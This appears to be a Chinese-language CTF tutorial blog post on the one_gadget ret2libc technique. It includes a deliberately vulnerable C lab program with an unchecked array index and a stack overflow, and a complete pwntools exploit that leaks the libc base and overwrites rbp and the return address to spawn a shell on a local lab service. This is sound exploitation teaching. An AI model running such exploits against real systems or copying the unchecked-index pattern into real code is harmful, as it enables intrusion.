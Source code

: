 ```yaml
---
title: "Day14－Other ret2libc(one gadgets)"
date: 2024-09-28
draft: false
tags: ["iron-man-2024", "pwn", "2024"]
categories: ["security-research"]
author: "YJK"
showToc: true
TocOpen: false
---
```



## [Lab 網址](https://github.com/YJK0805/PWN-CTF-note/)


## 前言

昨天的內容利用了 `libc` 進行攻擊，不過實際上我們使用的 gadgets 長度既不算長也不算短。而且在之前的題目中，我們常常隨意填充 `rbp`，那麼 `rbp` 真的沒有用嗎？事實上，它是有作用的。像是 [one gadget](https://github.com/david942j/one_gadget) 這個工具，就會使用到 `rbp`，而且它能使 gadgets 的長度最短，因為它只需要控制 `rbp` 和 8 個 byte 的 return address 即可。

## [One Gadget](https://github.com/david942j/one_gadget)

在函式庫中，有些函式會呼叫 `execve('/bin/sh', argv, envp)`，簡單來說就是可以拿來開啟 shell。像是 `system(cmd)` 可能會執行 `fork() + execve('/bin/sh', ["sh","-c",cmd], environ)`。因此，如果跳到 `system` 的某個中段，最終可能會執行 `execve('/bin/sh', argv, environ)`。

不過，雖然這樣說，直接跳過去不一定會成功，但通常有很多個 one gadget，所以多試幾個總會有成功的可能。如果你想進一步了解工具的運作方式，或者想手動尋找 one gadget，建議參考 david942j 在 HITCON CMT 2017 的議程 [david942j - 一發入魂 One Gadget RCE](https://youtu.be/L9maBmiJGAc?si=1eEG5bjKVoFp37gv)。

## 使用

使用以下指令安裝 one gadget 工具：

```bash
gem install one_gadget
```
安裝完成後，只需要針對 libc 找出可用的 one gadget，指令如下：

```bash
one_gadget <libc file>
```

![image](/images/iron2024/day14_image1.png)

可以看到工具會列出各個 gadget 的限制條件，因此需要滿足這些條件，像是 `rbp` 的值或其他 register 的位置。通常我不會過於在意這些限制條件，只要 `rbp` 符合條件即可，比如符合 `rbp-0x78`、`rbp-0x48` 或 `rbp-0x50` 是可寫的。

我的習慣是使用 `gdb` 將程式運行起來，然後通過 `vmmap` 查看哪些區域是可寫的。找到沒有寫入資料的區段後，將 `rbp` 設置為那個區段的位址。接著，如果失敗，就換另一個 gadget 繼續測試。

## Lab

查看以下原始碼：

```c
#include<stdio.h>
#include<stdlib.h>

int main(){
    setvbuf(stdout, 0, 2, 0);
    setvbuf(stdin, 0, 2, 0);
    setvbuf(stderr, 0, 2, 0);
    long long num[10] = {0};
    while(1){
        puts("1. Edit number");
        puts("2. Show number");
        puts("3. Exit");
        printf(">> ");
        int choice;
        scanf("%d", &choice);
        switch(choice){
            case 1:
                printf("Index: ");
                int idx;
                scanf("%d", &idx);
                printf("Number: ");
                scanf("%lld", &num[idx]);
                break;
            case 2:
                printf("Index: ");
                int idx2;
                scanf("%d", &idx2);
                printf("Number: %lld\n", num[idx2]);
                break;
            case 3:
                break;
            default:
                puts("Invalid choice");
                break;
        }
        if(choice == 3){
            break;
        }
    }
    char message[0x20];
    printf("Leave a message: ");
    read(0, message, 0x80);
    return 0;
}
```

使用以下指令進行編譯：

```bash
gcc src/ret2libc_adv.c -o ./ret2libc_adv/share/ret2libc_adv -fno-stack-protector
```

## writeup

相比昨天的 Lab，這次的 `read` 可以 overflow 的部分變小了，但其餘部分相同，仍然可以通過越界讀取來 leak `libc base`。查看反組譯碼會發現能 overflow 的位置只有到 `rbp` 和 return address，因此非常適合使用 one gadget。

![image](/images/iron2024/day14_image2.png)

使用 one gadget 找到的 gadget 如下：

![image](/images/iron2024/day14_image3.png)

接下來，我們寫一個簡單的 script 來確認條件，看看能使用哪個 gadget。在測試之前，記得依照昨天的方式換 `libc`，指令如下：

```bash
patchelf --replace-needed libc.so.6 ./libc.so.6 --set-interpreter ./ld-linux-x86-64.so.2 ./ret2libc_adv
```

然後寫測試的 script 並掛上 `gdb`：

```python
from pwn import *

r = process('./ret2libc_adv')
context.terminal = ['tmux', 'splitw', '-h']
gdb.attach(r)
r.sendlineafter('>> ', '2')
r.sendlineafter('Index: ', '11')
number = int(r.recvline().strip().split(b': ')[1])
libc_base = number - 0x29d90
log.info(f'Libc: {hex(libc_base)}')
payload = b'A' * 0x70
r.sendlineafter('>> ', '3')
r.sendlineafter('Leave a message: ', payload)

r.interactive()
```

執行後，在 return address 觀察 `register` 的狀態以及應該填充的 `rbp` 值：

![image](/images/iron2024/day14_image4.png)

既然我們已經有了 `libc base address`，就可以查看 `libc` 的可寫段：

![image](/images/iron2024/day14_image5.png)

我通常習慣從最尾端找起，使用指令 `x/30gx 0x7f83a8e81000-0x78`，發現大多區域都是可寫的。

![image](/images/iron2024/day14_image6.png)

回到剛才找到的 one gadget，最後一個 gadget 的 offset 是 `0xebd43`，看起來條件符合。我們將 `rbp` 填入之前找到的可寫區段（記得加上 offset 和 `libc address`）。

![image](/images/iron2024/day14_image7.png)

完整 exploit：

```python
from pwn import *

# r = process('./ret2libc_adv')
r = remote('127.0.0.1', 10006)
r.sendlineafter('>> ', '2')
r.sendlineafter('Index: ', '11')
number = int(r.recvline().strip().split(b': ')[1])
libc_base = number - 0x29d90
log.info(f'Libc: {hex(libc_base)}')
rbp = libc_base + 0x21c000
one_gadget = libc_base + 0xebd43
payload = b'A' * 0x70 + p64(rbp) + p64(one_gadget)
r.sendlineafter('>> ', '3')
r.sendlineafter('Leave a message: ', payload)
r.interactive()
```

solved！！

![image](/images/iron2024/day14_image8.png)